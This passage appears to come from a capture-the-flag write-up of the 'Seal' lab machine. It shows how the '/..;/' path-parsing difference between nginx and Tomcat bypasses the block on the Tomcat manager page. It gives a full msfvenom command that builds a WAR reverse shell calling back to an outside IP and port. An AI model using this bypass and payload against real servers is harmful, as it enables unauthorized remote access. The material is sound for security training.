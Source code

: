 ![](/assets/images/seal/status.png)

But we can't do much we the pages that we have access to, as we read earlier the one that blocks the access is nginx not tomcat, so there is a known issue with this set up, if we access to a site using `/..;/`, tomcat will take it as `/../`, but nginx won't, allowing us to access to pages that are blocked by nginx but not by tomcat, more detail on [acunetix page](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/). So to access to the manager page we have to access to `https://seal.htb/manager/..;/manager/html`·

![](/assets/images/seal/manager.png)

Now we can use the normal procedure to get a shell, first we generate a .war reverse shell with msfvenom, `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.57 LPORT=54321 -f war -o subsh.war`, then upload the generated file, but we have to intercept the request with burp to perform again the same trick to bypass nginx.
